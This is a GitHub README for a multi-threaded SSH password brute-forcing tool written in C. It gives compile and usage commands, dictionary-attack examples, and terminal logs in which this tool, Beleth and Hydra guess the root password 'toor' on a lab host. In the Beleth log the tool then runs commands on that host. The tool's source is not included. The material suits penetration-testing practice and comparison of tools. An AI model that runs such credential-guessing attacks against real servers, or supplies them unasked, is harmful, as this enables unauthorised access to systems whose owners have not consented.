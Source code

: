 # SSH Brute Forcer

A simple, multi-threaded SSH brute force tool designed for basic brute forcing and dictionary-based attacks.

## Features

- **Multi-Threading**:
  - Utilizes multiple threads to attempt concurrent connections, potentially increasing speed.
  - Be cautious: Creating an excessive number of threads (e.g., 1000) can overwhelm the system. This feature is primarily for demonstration purposes and should be used with care.

- **Standard Brute Forcing**:
  - Tests random strings of varying lengths, which is generally inefficient and not recommended for serious use.

- **Dictionary-Based Attacks**:
  - Supports using a list of passwords from a file for more targeted attacks.

## Compile

```
	$ cc -o ssh-brute-forcer ssh-brute-forcer.c -I/usr/local/include -L/usr/local/lib -lssh -pthread -Wno-discarded-qualifiers -Wno-incompatible-pointer-types-discards-qualifiers -Wno-unknown-warning-option
```

## Usage

```
$ ./ssh-brute-forcer -h <hostname> -p <port> [-u <username>] [-p <password> | -P <password_list>] [-t <thread_count>] [-V]
```
Parameters

    -h <hostname>: The SSH server’s hostname or IP address.
    -p <port>: The SSH port (default is 22).
    -u <username>: Specific username to test.
    -p <password>: Specific password to test.
    -P <password_list>: Path to a file with a list of passwords.
    -t <thread_count>: Number of threads for concurrent testing (default is 4).
    -V: Verbose mode to display attempted passwords.

Example Commands

    Test a Single Username and Password:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -p mypassword -t 10 -V
```

This command tests the provided username and password using 10 threads and displays the attempted passwords.

Dictionary-Based Attack with a Username and Password List:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -P pass.list -t 10 -V

```

    This command tests the specified username with all passwords from pass.list using 10 threads, showing attempted passwords.

Note

The brute force method of trying random strings is highly inefficient and not suitable for practical use. Additionally, using a large number of threads can significantly impact system performance and stability. This tool is intended primarily for educational purposes and should be used responsibly.

## Test
## ssh-brute-forcer

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time ./ssh-brute-forcer -h 192.168.1.142 -p 777 -u root -P pass.list -t 10 -V
Attempting - Username: root, Password: sdf
Attempting - Username: root, Password: dg
Attempting - Username: root, Password: asd
Attempting - Username: root, Password: sdf
Attempting - Username: root, Password: asdfa
Attempting - Username: root, Password: asdfasdfsad
Attempting - Username: root, Password: sadf
Attempting - Username: root, Password: ga
Attempting - Username: root, Password: asdfg
Attempting - Username: root, Password: f
Attempting - Username: root, Password: dsf
Attempting - Username: root, Password: sad
Attempting - Username: root, Password: as
Attempting - Username: root, Password: f
Attempting - Username: root, Password: df
Attempting - Username: root, Password: asdasdf
Attempting - Username: root, Password: asd
Attempting - Username: root, Password: asdf
Attempting - Username: root, Password: fasdgafadf
Attempting - Username: root, Password: asdf
Attempting - Username: root, Password: toor
Credentials found - Username: root, Password: toor

real	1.58s
user	0.01s
sys	0.03s
cpu	2%
```

##beleth

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time beleth -l 10 -t 192.168.1.142 -p 777 -w pass.list -u root -v
┌────────────────────────────────────────┐
│                 Beleth                 │
│          www.chokepoint.net            │
└────────────────────────────────────────┘
[*] Read 21 passwords from file.
[*] Starting task manager
[*] Spawning 10 threads
[*] Starting attack on root@192.168.1.142:777
[+] (1762) Trying root asdfa
[+] (1764) Trying root sdf
[+] (1771) Trying root asdfg
[+] (1763) Trying root dg
[+] (1766) Trying root f
[+] (1765) Trying root ga
[+] (1770) Trying root sdf
[+] (1767) Trying root asd
[+] (1768) Trying root asdfasdfsad
[+] (1769) Trying root sadf
[+] (1771) Trying root df
[+] (1766) Trying root as
[+] (1764) Trying root asd
[+] (1763) Trying root f
[+] (1767) Trying root asdf
[+] (1765) Trying root sad
[+] (1762) Trying root fasdgafadf
[+] (1770) Trying root asdf
[+] (1768) Trying root dsf
[+] (1769) Trying root asdasdf
[+] (1770) Trying root toor
[*] Cleaning up child processes.
[*] Authentication succeeded (root:toor@192.168.1.142:777)
[*] Executing: uname -a && id
[*] Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux
[*] uid=1002(root) gid=1002(root) groups=1002(root)
kt11-1+deb8u2 (2015-07-17) i686 GNU/Linux

real	1.45s
user	0.03s
sys	0.05s
cpu	5%
```

##hydra

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time hydra -s 777 -l root -P pass.list  192.168.1.142 ssh -V     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-25 17:41:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 21 login tries (l:1/p:21), ~2 tries per task
[DATA] attacking ssh://192.168.1.142:777/
[ATTEMPT] target 192.168.1.142 - login "root" - pass "asdfa" - 1 of 21 [child 0] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "sdf" - 2 of 21 [child 1] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "asdfg" - 3 of 21 [child 2] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "dg" - 4 of 21 [child 3] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "f" - 5 of 21 [child 4] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "ga" - 6 of 21 [child 5] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "sdf" - 7 of 21 [child 6] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "asd" - 8 of 21 [child 7] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "asdfasdfsad" - 9 of 21 [child 8] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "sadf" - 10 of 21 [child 9] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "as" - 11 of 21 [child 10] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "df" - 12 of 21 [child 11] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "asd" - 13 of 21 [child 12] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "f" - 14 of 21 [child 13] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "asdf" - 15 of 21 [child 14] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "sad" - 16 of 21 [child 15] (0/0)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "fasdgafadf" - 17 of 22 [child 3] (0/1)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "asdf" - 18 of 22 [child 11] (0/1)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "dsf" - 19 of 22 [child 0] (0/1)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "asdasdf" - 20 of 22 [child 1] (0/1)
[ATTEMPT] target 192.168.1.142 - login "root" - pass "toor" - 21 of 22 [child 2] (0/1)
[REDO-ATTEMPT] target 192.168.1.142 - login "root" - pass "asd" - 22 of 22 [child 4] (1/1)
[777][ssh] host: 192.168.1.142   login: root   password: toor
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-25 17:41:54

real	1.64s
user	0.05s
sys	0.03s
cpu	4%
```
